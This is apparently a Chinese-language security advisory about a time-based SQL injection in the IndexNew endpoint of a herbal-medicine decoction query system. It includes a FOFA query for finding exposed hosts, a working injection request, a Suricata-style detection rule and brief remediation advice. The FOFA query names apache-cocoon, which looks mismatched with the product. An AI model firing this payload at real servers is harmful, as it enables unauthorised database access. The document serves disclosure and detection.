

# 中药煎药查询系统 IndexNew 存在SQL注入漏洞

中药煎药查询系统 IndexNew 存在SQL注入漏洞，攻击者可进行sql注入攻击获取数据库信息或者权限。

# 影响版本

**中药煎药查询系统**

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="apache-cocoon"

POC/EXP：

```
GET /PreDetail/IndexNew?pspnum=1';WAITFOR%20DELAY%20'0:0:5'-- HTTP/1.1
Host:127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
```



sonrt规则：

```
alert http any any -> $HOME_NET any (
    msg:"中药煎药查询系统 - /PreDetail/IndexNew pspnum 时间盲注 (WAITFOR DELAY)";
    flow:to_server,established;
    http.method; content:"GET";
    http.uri;
        content:"/PreDetail/IndexNew";
        fast_pattern;
    http.uri;
        content:"pspnum=";
    http.uri;
        content:"WAITFOR%20DELAY"; nocase;
    http.uri;
        content:"0:0:5"; nocase;
    metadata:
        service http,
        affected_product "中药煎药查询系统",
        vulnerability_type "Time-based SQL Injection",
        severity "high";
    classtype:web-application-attack;
    sid:1000746;
    rev:1;
    priority:1;
)
```

# 漏洞修复

关闭互联网暴露面或接口设置访问权限，升级至安全版本。
